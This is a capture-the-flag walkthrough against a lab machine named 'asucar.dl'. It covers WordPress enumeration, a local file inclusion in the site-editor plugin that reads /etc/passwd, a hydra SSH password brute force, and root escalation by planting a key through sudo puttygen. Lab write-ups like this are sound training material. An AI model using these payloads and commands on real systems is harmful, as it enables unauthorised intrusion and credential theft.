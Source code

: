 ﻿# ENUMERATION


## OPEN PORTS

![Pasted image 20241031135702.png](../../IMAGES/Pasted%20image%2020241031135702.png)
2 open ports, one is a website and the other is ssh, let's fuzz the website

## FUZZING

![Pasted image 20241031135726.png](../../IMAGES/Pasted%20image%2020241031135726.png)

Seems like a WordPress page, let's take a look at it:


![Pasted image 20241031135814.png](../../IMAGES/Pasted%20image%2020241031135814.png)

First part seems off, let's look at the source code:

![Pasted image 20241031135908.png](../../IMAGES/Pasted%20image%2020241031135908.png)

Nothing too weird, let's save it in case we need it further, now, let's take a look at 
`wp-login.php`:

![Pasted image 20241031140023.png](../../IMAGES/Pasted%20image%2020241031140023.png)

We need to add `asucar.dl` to `/etc/hosts`:

![Pasted image 20241031140104.png](../../IMAGES/Pasted%20image%2020241031140104.png)


Knowing that the site uses WordPress, let's use `wpscan` to enumerate the website:


```ad-hint

##### USED COMMAND

`wpscan --url http://asucar.dl/ --random-user-agent`

##### OUTPUT

[+] URL: http://asucar.dl/ [172.17.0.2]
[+] Started: Thu Oct 31 19:12:55 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.59 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://asucar.dl/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 | - http://codex.wordpress.org/XML-RPC_Pingback_API
 | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 | - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://asucar.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://asucar.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://asucar.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 | - https://www.iplocation.net/defend-wordpress-from-ddos
 | - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | Found By: Rss Generator (Passive Detection)
 | - http://asucar.dl/index.php/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>
 | - http://asucar.dl/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://asucar.dl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://asucar.dl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | [!] Directory listing is enabled
 | Style URL: http://asucar.dl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 | - http://asucar.dl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | Last Updated: 2017-05-02T23:34:00.000Z
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 | - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 


```

So, important info would be the following:

```ad-important

1. Apache/2.4.59 server(DEBIAN)
2. XML-RPC enabled and directory listing enabled for `http://asucar.dl/wp-content/uploads`
3. Site uses wordpress 6.5.3 with the `twentytwentyfour` theme.
4. `site-editor` plugin not updated running version 1.1
```


# EXPLOITATION


So, once we've enumerated all the info in the WordPress website, let's begin with exploitation, first, let's use `searchsploit` to lookup any exploit regarding that site editor version:

![Pasted image 20241031142025.png](../../IMAGES/Pasted%20image%2020241031142025.png)

Nice, we got a [LFI](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/FILE%20INCLUSION%20VULNERABILITIES/LOCAL%20FILE%20INCLUSION%20(LFI).md)regarding this version, let's take a look at the exploit:

![Pasted image 20241031142212.png](../../IMAGES/Pasted%20image%2020241031142212.png)

So, the usage would be:

```ad-important

# USAGE

`http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

# asucar.dl exploitation:

`http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

```


Let's exploit it:

![Pasted image 20241031142325.png](../../IMAGES/Pasted%20image%2020241031142325.png)

Nice, we were able to execute the [LFI](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/FILE%20INCLUSION%20VULNERABILITIES/LOCAL%20FILE%20INCLUSION%20(LFI).md), we found user `curiosito`

Let's use hydra and try to bruteforce the ssh login:


```ad-hint

##### USED COMMAND

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

##### OUTPUT



```

Simple password, seems like the user didn't have that much security, let's log in to ssh:

![Pasted image 20241031142733.png](../../IMAGES/Pasted%20image%2020241031142733.png)

Nice, we can begin with PRIVESC




# PRIVILEGE ESCALATION



## SUDO -L

![Pasted image 20241031142756.png](../../IMAGES/Pasted%20image%2020241031142756.png)

We can run `puttygen`, `puttygen` is used to generate ssh keys, let's generate one for root user:

```ad-hint

##### USED


`puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked`

`puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys`

`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked
`
`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh`

`ssh -i /home/curiosito/.ssh/hacked root@localhost`


##### OUTPUT



```



And that would be it for this CTF!

